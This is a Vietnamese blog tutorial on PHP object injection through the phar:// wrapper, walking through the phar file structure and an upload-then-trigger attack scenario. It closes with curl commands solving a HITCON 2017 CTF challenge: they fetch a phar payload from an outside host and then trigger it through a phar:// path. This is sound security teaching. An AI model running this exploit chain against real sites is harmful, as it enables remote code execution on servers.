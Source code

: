 ```yaml
---
title: "Php Object Injection Without Unserialize"
date: 2018-09-20T09:17:11+07:00
draft: false
author: "Kev"
comments: true
tags: ["php", "serialization"]
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: /images/uploads/phar_background.png
---
```


# Stream wrapper

Trong php có khái niệm gọi là stream wrapper, nói về các giao thức trong cách xử lý url, được sử dụng cùng với hàm filesystem  như fopen, copy, file_exists, filesize.

| file:// 		| http:// 		| ftp:// | php:// | zlib:// | data:// | glob:// | phar:// |
| ------------- |:-------------:| ------:|:------:|:-------:|:-------:|:-------:|:-------:|

```
A wrapper is additional code which tells the stream how to handle specific protocols/encodings.
```

# Phar 

Những wrapper này đều có thể lợi dụng để khai thác nhiều loại lỗ hổng. `Phar` wrapper là php archive. Dùng để nén tệp và siêu dữ liệu. Phar không thể sử dụng cho truy cập file từ xa.
Cấu trúc của phar gồm: stub, manifest, file content, signature.

{{<figure src="/images/uploads/phar_phar-structure.png">}}

__Stub__

`__HALT_COMPILER()` là hàm dừng thực thi code trong file php.
```
$ php -r "echo 'Test'; __HALT_COMPILER(); echo 'stub';"
> Test
>
```
`Stub` là một đoạn code php đơn giản. Sử dụng `__HALT_COMPILER` mô tả code php, vì không muốn chương trình biên dịch và thực thi đoạn code php phía sau.

__Manifest__

{{<figure src="/images/uploads/phar_manifest.png">}}

Các byte đầu mô tả thông tin của phar gồm các thông tin của file nén bên trong, version, ... Trong đó có đoạn byte gần cuối là định dạng của [serialize php](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/).
Vậy, bản chất trong phar đã có serialize và chắc một điều là sẽ có 1 giai đoạn nào đó phải sử dụng đến unserialize. Đó là lúc giải nén các file bên trong của tệp phar.

__File contents__

Chứa nội dung được nén bên trong

__Signature__

Phần chữ kí dùng để xác minh tính toàn vẹn của tệp phar, chỉ cần thay đổi 1 yếu tố trong tệp thì chữ kí này giúp để xác minh sự thay đổi đó.

{{<figure src="/images/uploads/phar_xxd-file-phar.png">}}

Chúng ta có thể thấy, phần stub ở trên đầu của file (`<?php __HALT_COMPILER(); ?>`), vì phần này mình có thể tự do tùy chỉnh nên giúp cho việc tạo định dạng file fake rất dễ. Tiếp theo là đoạn `O:7:"example":1:{...` là dữ liệu serialize, lợi dụng điểm này mình có thể override dữ liệu tạo ra payload tấn công object injection. `test.txt`  là nội dung file nén bên trong. Cuối cùng, là đoạn signature để xác minh tính toàn vẹn dữ liệu.


# Kịch bản tấn công

Thông thường nhiều trang web có tính năng upload ảnh và cho tự do chèn địa chỉ ảnh. Cách ngăn chặn những lỗi tấn công không biết trước thường mọi lập trình viên chỉ dùng function `file_exists()` để kiểm tra file. Nhưng đây lại là tác nhân gây ra lỗi object injection dùng phar.

 - _Bước 0_: Khởi tạo payload, cần biết trước trên server có những class nào đã được định nghĩa. Điều này về lý thuyết có vẻ khó, nhưng các ứng dụng lớn thông thường sử dụng những class phổ biến, cho nên có thể khảo sát qua nhiều sourcecode của các trang web lớn.
 - _Bước 1_: vì phar không thể tương tác file từ xa, chúng ta cần upload file payload lên server. Có thể dễ dàng qua mặt các filter bằng cách tạo file phar với stub là header file ảnh.
 - _Bước 2_: Cần tùy chỉnh được url trong các function: include(), fopen(), file_get_contents(), file(), ... Url dạng `phar:///usr/share/payload.phar.jpg`

# Capture The Flag ([orange.tw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017))

__Baby^H Master PHP 2017 | HITCON 2017 Quals__

[source code index.php]({{/resources/php_obj_inj_without_unserialize/index.php}})

```
# Get a cookie
$ curl http://host/ --cookie-jar cookie

# Download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# Get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```
